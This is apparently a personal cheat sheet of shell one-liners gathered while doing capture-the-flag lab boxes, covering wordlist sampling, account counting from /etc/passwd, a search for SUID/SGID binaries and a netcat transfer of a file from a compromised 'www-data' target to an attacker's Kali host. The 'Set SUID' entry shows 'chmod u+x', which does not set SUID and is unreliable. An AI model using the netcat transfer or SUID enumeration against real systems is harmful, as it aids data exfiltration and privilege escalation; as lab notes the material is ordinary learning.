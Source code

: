 # Fancy commands 

Some fancy command I forget time by time

## Table of Contents

- [Get a random line of a text file](#get-a-random-line-of-a-text-file)
- [Get my IP](#get-my-ip)
- [Copy from a certain line number until the end of the file](#copy-from-a-certain-line-number-until-the-end-of-the-file)
- [Generate a linux password](#generate-a-linux-password)
- [Count the number of accounts on a *nix box](#count-the-number-of-accounts-on-a-nix-box)
- [Pick up some 5 random lines of a file](#pick-up-some-5-random-lines-of-a-file)
- [Set SUID permission](#set-suid-permission)
- [Sorting a text file](#sorting-a-text-file)
- [Transfer a file with nc between 2 computers](#transfer-a-file-with-nc-between-2-computers)
- [Other things not classified](#other-things-not-classified)

## Get a random line of a text file

````commandline
shuf -n 1 /usr/share/wordlists/rockyou.txt
````

For big files, like the rockyou, where you want only to get the first X lines:

````commandline
head /usr/share/wordlists/rockyou.txt -n 10000 | shuf -n 1 -
````

## Get my IP

````commandline
hostname -I | awk '{print $1}'
````

## Copy from a certain line number until the end of the file

````commandline
sed -n '1792,$p' Hot_Babe.png > wordlist.txt
````

## Count the number of accounts on a *nix box

```commandline
gawk -F: '{ print $1 }' /etc/passwd | wc -l
```

N.B. User accounts are account with `uid` starting from `1000`.

## Pick up some 5 random lines of a file

```commandline
head /usr/share/wordlists/rockyou.txt -n 10000 | shuf -n 5 -
```

## Set SUID permission

```commandline
chmod u+x <filename>
```

## Sorting a text file

```commandline
sort to_sort.txt > sorted.txt
```

## Transfer a file with nc between 2 computers

Let say we have a file on the target machine we want to transfer to the host machine: For the fun, let's first create a file on the target machine with some meaningful content we want to transfer.

```commandline
echo "Foo says bla bla to Bar" > /tmp/foo-message.txt
```

Now, we first need to put a `NetCat` listener on the host (destination) and then send it from the target (source).

On the host (the destination, the listener):

```commandline
root@kali:~/tryhackme/startup# nc -l -p 9999 > foo-message.txt
```

On the target:

```commandline
www-data@startup:/incidents$ nc -w 3 <IP-DESTINATION> 9999 < foo-message.txt
```

Where `-w 3` is the time out in seconds. See `nc -h` for more info.

## Other things not classified

```commandline
┌──(itchy㉿scratchy)-[~]
└─$ ifconfig tun0 | grep -i 'inet ' | awk -F' ' '{print $2}'
10.8.208.30
```

Find all the SUID/SGID executables:

```commandline
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

```commandline
while read line; do echo $line; done < clue.txt
```
